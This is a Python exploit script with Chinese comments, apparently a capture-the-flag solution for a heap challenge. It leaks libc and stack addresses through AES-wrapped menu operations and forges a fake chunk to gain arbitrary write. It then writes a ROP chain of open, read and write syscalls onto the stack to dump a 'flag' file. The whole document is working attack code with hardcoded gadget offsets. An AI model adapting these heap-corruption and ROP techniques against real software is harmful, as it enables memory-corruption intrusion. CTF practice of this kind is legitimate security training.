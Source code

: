 ```py
libc_leak_new = aes_encrypt(libc_leak,key)
print(libc_leak_new[:6])
print(hex(u64(libc_leak_new[:6].ljust(8,b"\x00"))))
libc_leak = u64(libc_leak_new[:6].ljust(8,b"\x00"))
# 0x7f413690e000 0x7f4136afabe0
libc_base = libc_leak - 0x1ecbe0
print(hex(libc_base))
# 4 上构造 fake chunk
unsorted_ptr = proc_base + 0x4080 + 0x20
payload = p64(0)+p64(0x31)+p64(unsorted_ptr - 0x18)+p64(unsorted_ptr - 0x10)
edit(4,aes_decrypt(payload,key))
# 连续申请0x12个块
add(8,b"aaaa")
for i in range(0x11):
    add(7,b"aaaa")
edit(2,p64(0x30)+p64(0x480)[:6])
delete(8)
# 现在 block 4 的指针指向了 $rebase(0x4088)
# environ leak
environ = libc_base + libc.symbols["__environ"]
edit(4,p64(environ))
magic = libc_base + 0x151bb0 # mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
show(1)
leak = p.recv(16)
leak_new = aes_encrypt(leak,key)
stack_leak = u64(leak_new[:6].ljust(8,b"\x00"))
print(hex(stack_leak))
stack_ptr = stack_leak - 0x130 # TODO fix this
pop_rdi = libc_base + 0x23b6a
pop_rsi = libc_base + 0x2601f
pop_rdx_r12 = libc_base + 0x119431
syscall = libc_base + 0x10E1F0
flag_addr = stack_ptr + 23*8
pop_rax = libc_base + 0x36174

rop = p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["read"])
rop+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["write"])+b"flag\x00"+b"\x00"*3 # 长为 23*8 + 5 需要覆盖4次
#  0x7fff795f98a8 0x7fff795f99d8

payload = p64(stack_ptr)+p64(stack_ptr+0x30)+p64(stack_ptr+0x60)+p64(proc_base+0x4088)
new_payload = aes_decrypt(payload,key)
edit(4,p64(stack_ptr+0x30)+p64(stack_ptr+0x60)[:6])

edit(1,aes_decrypt(rop[0x30:0x60],key))
edit(2,aes_decrypt(rop[0x60:0x90],key))

edit(4,p64(stack_ptr + 0x90)+p64(stack_ptr)[:6])

edit(1,aes_decrypt(rop[0x90:0xc0],key))
edit(2,aes_decrypt(rop[0:0x30],key))

p.interactive()

```
